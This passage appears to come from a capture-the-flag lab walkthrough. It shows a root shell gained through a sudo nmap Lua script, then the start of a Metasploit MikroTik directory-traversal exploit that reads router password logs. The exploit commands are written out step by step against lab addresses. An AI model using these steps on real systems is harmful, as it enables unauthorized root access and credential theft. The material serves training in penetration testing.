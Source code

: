 Let's create a temporary file with the script code and save its name to the TF variable:
```bash
$TF=$mktemp
```
Let's add the code that opens the sh shell:
```bash
$ echo ‘os.execute(“/bin/sh”)’ > $TF
```
6. Run the script as root using sudo and nmap:
```bash
$ sudo nmap --script=$TF
```
7. Check the received rights:
```bash
$id
```
8. Get the flag:
```bash
curl -s file:///root/root.txt
```
![Screenshot](9.3/Screenshot1.png)

# Level 5 - 10.5 Practice "Going beyond the DMZ"

## Task 

Analyze the security of the node you deployed in the virtual bench, determine the software version and try to identify known vulnerabilities of this operating system. Find a known vulnerability that allows you to extract the password history of router accounts, and exploit it using the metasploit framework.

As a confirmation of successful operation, provide a flag (the administrator account password that preceded the password that you specified when you initialized the router, in the format of 9 letters, numbers and special characters).

## How to solve:

### Method 1

1. We carry out a basic scan: we check the top 100 TCP ports without performing a ping scan and checking the DNS record, we determine the versions of the services:
```bash
$ nmap -sT -Pn -n -F -sV --open 192.168.56.103
```
2. We detect services, we see that these are Mikrotik devices version 6.40.7. We are looking for information about vulnerabilities, the most relevant is CVE-2020-20214. We launch the Metasploit Framework and look for modules to exploit this and other vulnerabilities:
```bash
$msfconsole

msf6 > search mikrotik

msf6> use auxiliary/gather/mikrotik_winbox_fileread

msf6>info
```
3. In the description of the module, we see the vulnerable version 6.40.7, therefore, this device is highly likely to be affected by it. Since this vulnerability is of the directory traversal type, we can use the module to read arbitrary files on the attacked device, namely, to read password change logs that reveal credentials in clear text:
```bash
msf6 auxiliary(gather/mikrotik_winbox_fileread) > set RHOST 192.168.56.103
RHOST => 192.168.56.103
```